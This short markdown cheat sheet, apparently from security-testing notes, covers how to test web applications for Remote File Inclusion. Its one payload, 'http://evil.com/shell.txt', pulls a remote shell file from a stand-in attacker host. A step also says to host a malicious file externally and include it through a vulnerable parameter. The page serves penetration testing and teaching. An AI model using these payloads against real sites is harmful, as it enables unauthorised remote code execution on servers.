 # 🌐 Remote File Inclusion (RFI)

## Overview
Remote File Inclusion (RFI) allows attackers to include a remote file through the web browser.

## Steps to Test
1. Test with basic RFI payloads:
    ```bash
    http://evil.com/shell.txt
    ```
2. Host a malicious file on an external server and include it through the vulnerable parameter.

## Tips
- Test inputs in URL parameters, form fields, and cookies.
- Verify if remote file contents are included in the response.
- Use tools like RIPS to identify and exploit RFI vulnerabilities.
